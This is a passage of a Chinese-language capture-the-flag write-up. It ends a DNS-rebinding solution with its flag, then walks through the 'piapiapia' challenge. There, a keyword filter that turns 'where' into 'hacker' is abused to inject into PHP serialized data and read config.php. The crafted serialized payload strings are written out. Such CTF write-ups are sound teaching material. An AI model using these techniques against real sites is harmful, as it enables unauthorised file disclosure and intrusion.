 整体流程就是

 - 设置ctf和ctf1域名都指向服务器正常ip
 - 题目页面提交ctf域名让爬虫访问
 - 修改ctf域名指向127.0.0.1，TTL 60s
 - 100秒之后查看日志

最终得到了flag `0ctf{monkey_likes_banananananananaaaa}`

piapiapia
---------
代码审计题目，源码在在[这里][2]

翻看了一下，看到了反序列化，心中一惊，但是仔细看的话，只有array中的一项是可以被控制的，就是nickname，如果传递了nickname[]数组，在正则验证和判断长度的时候，就成了判断`array`这个字符串了，是唯一可以带进数据的地方。但是又想，这里不管带进去什么都是字符串的状态啊，不会影响序列化之后的数据。如果能控制头像是`config.php`就可以读取到flag了。

序列化出来的数据就是`a:4:{s:5:"phone";s:11:"13888888888";s:5:"email";s:10:"xxx@qq.com";s:8:"nickname";a:1:{i:0;s:4:"test";}s:5:"photo";s:10:"upload/xxx";}`

我们期望的是`a:4:{s:5:"phone";s:11:"13888888888";s:5:"email";s:10:"xxx@qq.com";s:8:"nickname";a:1:{i:0;s:4:"test";}s:5:"photo";s:10:"config.php";}`

可以通过插入nickname破坏原有结构

> a:4:{s:5:"phone";s:11:"13888888888";s:5:"email";s:10:"xxx@qq.com";s:8:"nickname";a:1:{i:0;s:4:"`test";}s:5:"photo";s:10:"config.php";}`";}s:5:"photo";s:10:"config.php";}

代码高亮部分就是想插入的nicknane的值，但是实际生成的序列化结果"test"前面的肯定不是`s:4`了，长度就是实际的长度，然并卵。

然后注意到数据库查询部分有一个filter，会把部分关键词替换成hacker这个字符串。

```php
public function filter($string) {
    $escape = array('\'', '\\\\');
    $escape = '/' . implode('|', $escape) . '/';
    $string = preg_replace($escape, '_', $string);

    $safe = array('select', 'insert', 'update', 'delete', 'where');
    $safe = '/' . implode('|', $safe) . '/i';
    return preg_replace($safe, 'hacker', $string);
}
```

所以可以考虑利用这个过滤器修改序列化之后的数据，就是前面增加一些where，在序列化的时候是正确的，但是写入数据库的时候，where被替换成了hacker，字符长度多了一个，这样反序列化的时候，php就会在之前的数据前面读取完成，接下来就是另外一个字段了，也就是我们可以控制的数据部分。

前面增加的where个数就应该是我们的payload的长度31，生成的序列化数据就是`a:4:{s:5:"phone";s:11:"13888888888";s:5:"email";s:10:"xxx@qq.com";s:8:"nickname";a:1:{i:0;s:186:"wherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewhere";}s:5:"photo";s:10:"config.php";}s:5:"photo";s:10:"config.php";}`

然后经过替换就成了`a:4:{s:5:"phone";s:11:"13888888888";s:5:"email";s:10:"xxx@qq.com";s:8:"nickname";a:1:{i:0;s:186:"hackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhacker";}s:5:"photo";s:10:"config.php";}s:5:"photo";s:10:"config.php";}`

这样php解析s:186的时候就正好把所有的hacker读取完了，得到nickname是186的长度，接下来解析的s:5就是我们控制的数据了。


  [1]: https://crypto.stanford.edu/dns/
  [2]: https://dn-virusdefender-blog.qbox.me/2016/2448463110.zip
  [3]: http://storage.virusdefender.net/blog/images/685/3.png
  [4]: http://storage.virusdefender.net/blog/images/685/4.png
  [5]: http://storage.virusdefender.net/blog/images/685/5.png